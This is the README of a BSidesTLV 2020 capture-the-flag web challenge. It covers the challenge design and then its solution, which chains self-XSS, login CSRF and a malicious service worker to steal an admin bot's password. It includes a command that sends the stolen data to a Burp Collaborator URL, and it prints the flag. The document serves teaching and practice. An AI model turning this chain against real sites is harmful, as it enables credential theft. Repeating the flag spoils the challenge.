


# Bugler
[BSidesTLV CTF 2020] Bugler Challenge


_________________________________________________________

### Challenge Storyline
The admin of bugler is not new to Phishing attacks,  
He want to know that he's website customers are safe from these kind of attacks.  
So don't be selfish share phishing sites of malicious users, the admin will appreciate your service.  

### Challenge Design
The challenge components are:  
* challenge (Backend + Forntend Server)  
* database (MongoDB for registrations)
* queue (rabbitmq queue between the bot and the challenge)
* bot (puppeteer chromium based headless browser with a queue that get messages from the challenge)

### Challenge Scaled Design
* create as much bot instances as you need
* you can also create more challenge isntances
* creat network file storage (nfs) and connect it to the challenge instances at /app/public/upload.
* create a load balancer and let it balance between the challenge instances. (no sticky cookie needed if you are not duplicating the database, queue and nfs).



### Challenge Purpose
* Teach people that self XSS is could be more dangerous then they thought  
* Let people experience with Service Workers  
* Let people experience with login CSRF  

### Challenge Solution
1) Deploy the app: docker-compose up --build -d
2) Add "127.0.0.1 bugler.ctf.bsidestlv.com" to the hosts file (add other ip address if its remote)  
3) Execute solution.py (tested with python3)
   ```bash
   cd solution
   pip install requirements.txt
   python solution.py -l {LEAK_URL}
   ```
   * LEAK_URL - Burp Collaborator / RequestBin / Other URL
   * Example: python solution.py -l https://r6yhg580xmz4aawm50mqprae95fw3l.burpcollaborator.net/
4) Decode the argument from the query parameter password and you have the flag: **BSidesTLV2020{S3rv1ce_W0rk3rs@Y0urS3rvic3}**

### Challenge Solution Explanation
The exploit create a new user (if not exist, if exist it will login),   
Update the profile (which is vulnerable to self XSS): 
* upload service_worker.js file as the **avatar**  
* set csrf url as the **website**
* set address/city as the XSS payload which installs the service worker   

The user need to understand that he must use CSRF in order to get the admin execute the XSS payload,    
The CSRF attack is possible from the public profile of the user (by clicking on the profile picture) and reporting website as a phishing site....
The user will see the response header **"Service-Worker-Allowed: /"** and he will know he must use service workers in order to get the admin access (the admin wasn't login before the attack - short session cookie).    
With the service workers he will get all the admin traffic and the flag will be in the admin password.  
 
[](http://www.youtube.com/watch?v=p3EMyP6dguE)
  
